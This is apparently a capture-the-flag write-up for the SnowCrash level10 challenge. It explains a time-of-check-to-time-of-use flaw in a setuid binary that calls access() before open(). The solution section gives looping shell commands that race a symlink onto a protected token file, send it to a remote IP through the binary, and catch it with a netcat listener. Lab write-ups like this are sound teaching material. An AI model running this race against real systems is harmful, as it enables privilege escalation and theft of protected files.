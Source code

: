 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token to see if it failed because of `token` in the file name:

```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
`Level10` seems to check a user's rights, instead of a `strstr`on the name of file.</br>
Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

`level10` does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

`level10` seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do we listen to a port?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html

Theorical steps:
- Do a symlink again and again (in a loop)
- launch `level10` in a loop
- Hope that level10 will accept our file with access
- Then the symlink will occure
- Then level10 will open our modified file and write it on port 6969
- listen to the port to see what is happening and maybe catch the token

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: 

- Create the file that is going to be the symlink (`readlink -f token` to know the true path of token file):
```bash
while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done
```
We need to suppress and create a new file each time or the symlink will apply on `tmp/final` and will not pass the `access()` check again.

- On a second ssh terminal let's execute level10 in a loop: 
```bash 
while true; do (./level10 /tmp/final 10.11.200.134); done
```

- On a third terminal, we can listen to the port 6969 with the netcat command: 
```bash
while true; do nc -l 6969 ;done
```
